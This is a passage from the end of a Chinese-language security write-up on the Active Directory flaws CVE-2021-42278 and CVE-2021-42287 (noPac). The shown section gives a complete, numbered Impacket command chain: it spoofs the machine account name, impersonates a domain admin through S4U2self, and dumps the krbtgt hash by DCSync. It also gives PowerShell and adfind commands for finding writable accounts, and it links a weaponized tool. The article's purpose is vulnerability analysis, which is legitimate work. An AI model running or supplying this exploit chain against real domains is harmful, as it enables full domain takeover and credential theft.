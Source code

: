 或是Windows下的武器化工具：https://github.com/cube0x0/noPac

##### Linux命令

```
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

##### 利用延申	

​	如果在限制了MAQ属性的情况下，攻击的核⼼就是需要对⼀个账⼾有写权限，需要找⼀个⽤⼾账⼾，或者是所在的组， 对sAMAccountName有可写的权限；比如说是`Creater-sid`（机器账户的创建者默认对其有写权限）。

```powershell
Get-DomainObjectAcl duck -ResolveGUIDs | ?{$_.SecurityIdentifier -eq (GetDomainUser dog).objectsid}
```

​	寻找限制MAQ时的“加域账⼾”，对应的组策略 privilege就是`SeMachineAccountPrivilege`。

```cmd
adfind -b CN=Computers,DC=test,DC=com -sddl+++ -s base -sdna -sddlfilter ;;"CR CHILD";;;
```

​	其次，在域外没有凭据的情况下，就是要搞⼀个机器账⼾，可以配合webdav、rbcd等等思路进行`NTLM Relay`，然后就是MAQ 限制和不限制两种情况了。

### 0x06 总结

​	本文介绍了`CVE-2021-42278`和`CVE-2021-42287`的漏洞背景，并从协议以及源码角度来分析漏洞成因。并得出结论，这个漏洞出现的原因并不在某些文章所说的PAC。而是在`S4U2Self`的过程中产生的问题，也确实是在`TGS_REP阶段`，也证明了我最早发布的文章并没有描述错误。
